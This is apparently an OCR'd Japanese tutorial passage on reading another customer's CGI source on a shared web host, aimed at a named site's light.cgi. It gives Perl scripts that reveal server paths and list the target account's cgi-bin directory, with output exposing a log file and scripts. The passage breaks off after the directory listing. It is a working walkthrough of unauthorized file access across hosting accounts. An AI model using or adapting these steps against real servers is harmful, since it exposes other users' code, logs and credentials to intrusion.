 
●light.cgiのソースファイルを見る

  まず、light.cgiの絶対パスが必要です。

　え？「http://snow.prhosting.com/mp123/cgi\-bin/light.cgiだろ？」だって？
　それはWebとしての絶対パスで、ハードディスク上の絶対パスではありません。

　まず、ハードディスク上でのlight.cgiまでの絶対パスが必要です。

  そこで以下のようなプログラムを書きました。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- pwd.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";
print $ENV{SCRIPT_FILENAME}."\n";

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- cut cut\-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-

　このスクリプトをサーバー上で実行します。これは、実行したファイルまでの
絶対パスを取得するものです。system関数でfingerコマンドを実行するか、getp
wnam関数が使えれば、すぐにユーザーのホームディレクトリが分かりますが、た
ぶん使えないと思うので確実な方法でやります。

/usr/home/web/s/suisyaz/cgi\-bin/pl/pwd.cgi

  という結果でした。これを元にlight.cgiの位置を予想します。

/usr/home/web/

  まではたぶん同じです。そのあとのsはsuisyaz(ユーザー名)のsと考えます。
  そう、/usr/home/web/[A\-Za\-z0\-9_]/があると考えます。と、すれば、

/usr/home/web/m/mp123/cgi\-bin/

　というディレクトリ(フォルダ)に、light.cgiが置かれているということになり
ます。

 次に以下のようなプログラムを作りました。

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- opendir.cgi \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<
\#!/usr/local/bin/perl

print "Content\-Type: text/plain\x0d\x0a\x0d\x0a";
opendir(DIR, '/usr/home/web/m/mp123/cgi\-bin/') or print $!;
print $_."\n" foreach (readdir(DIR));
closedir(DIR);

\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<\-\- cut cut cut \-\-8<\-\-\-\-8<\-\-\-\-8<\-\-\-\-8<

　このようなファイルをサーバーで実行させます。
　これは、「/usr/home/web/m/mp123/cgi\-bin/」ディレクトリ内のファイルリス
トを表示させます。

\-\-\-\-\-
.
..
jcode.pl
kaiem.log
light2.cgi
light.cgi
\-\-\-\-\-
